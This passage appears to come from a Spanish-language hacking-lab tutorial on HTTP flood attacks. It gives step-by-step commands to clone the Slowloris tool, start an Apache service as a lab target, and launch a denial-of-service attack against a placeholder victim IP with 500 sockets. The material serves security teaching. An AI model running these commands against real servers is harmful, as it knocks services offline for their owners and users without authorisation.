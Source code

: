 ```
git clone https://github.com/gkbrk/slowloris.git
```
</b>

- <b>Paso 2</b>: Accedemos a la carpeta creada con la importación de GitHub (al clonar se creará automáticamente la carpeta con el nombre del recurso) con el comando:
<b>

```
cd Slowloris
```
</b>

Se inicia el servicio de Apache, comprobando que está en activo ya el servicio en el sistema, lo cual podemos realizarlo mediante los siguientes comandos:
<b>

```
service apache2 start
```
```
service apache2 status
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_5.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_5.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/HTTP_Flood_5.png" width="50%">
</picture>
</p>

- <b>Paso 3</b>: Ahora podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
python3 slowloris.py [ip_victima] -s 500
```
</b>

